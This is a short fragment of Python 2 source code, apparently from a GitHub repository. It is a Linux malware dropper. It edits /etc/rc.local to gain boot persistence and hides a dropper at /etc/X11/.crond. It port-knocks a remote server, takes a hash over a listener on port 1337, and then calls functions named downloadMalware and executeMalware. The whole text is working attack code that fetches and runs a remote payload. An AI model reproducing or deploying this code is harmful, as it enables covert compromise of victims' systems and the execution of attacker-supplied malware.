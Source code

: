 ```py
    if os.path.isfile('/etc/rc.local'):
        rc = open('/etc/rc.local').read()
        if '/etc/X11' not in rc:
            if os.path.isfile('/etc/X11/.crond'):
                os.system("sed -i '$d' /etc/rc.local")
                addtoRC()
            else:
                saveDropper()
                os.system("sed -i '$d' /etc/rc.local")
                addtoRC()
        if not os.path.isfile('/etc/X11/.crond'):
            saveDropper()
    else:
        createRC()
        if os.path.isfile('/etc/X11/.crond'):
            addtoRC()
        else:
            saveDropper()
            addtoRC()


def knockPorts(port1, port2, port3):
    SOCK = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    server = socket.gethostbyname(SERVER)
    print 'Knocking: %s %s %s' % (port1, port2, port3)
    SOCK.sendto(MESSAGE, (server, port1))
    wait()
    SOCK.sendto(MESSAGE, (server, port2))
    wait()
    SOCK.sendto(MESSAGE, (server, port3))
    wait()
    SOCK.close()


def getHash():
    try:
        PAYLOAD = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        PAYLOAD.bind(('0.0.0.0', 1337))
        PAYLOAD.settimeout(5)
        PAYLOAD.listen(1)
        conn, addr = PAYLOAD.accept()
        data = conn.recv(1024).decode('ascii')
        PAYLOAD.close()
        return data
    except:
        pass


knockPorts(1332, 1331, 1337)
hash = getHash()
downloadMalware(hash)
executeMalware()
checkPersistence()
finish()
```
